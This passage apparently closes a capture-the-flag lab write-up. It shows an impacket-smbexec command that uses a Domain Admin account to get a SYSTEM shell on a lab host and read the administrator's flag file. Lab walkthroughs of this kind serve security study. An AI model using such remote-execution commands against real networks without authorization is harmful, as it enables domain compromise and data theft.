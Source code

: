 Earlier, we saw that dom_rgarner is already a member of the Domain Admins group.

```zsh
➜  ms01 impacket-smbexec dom_rgarner@10.10.219.181 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Password:
[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>type c:\users\administrator\desktop\flag.txt
VL{<REDACTED>}
C:\Windows\system32>whoami
nt authority\system
```

That's it!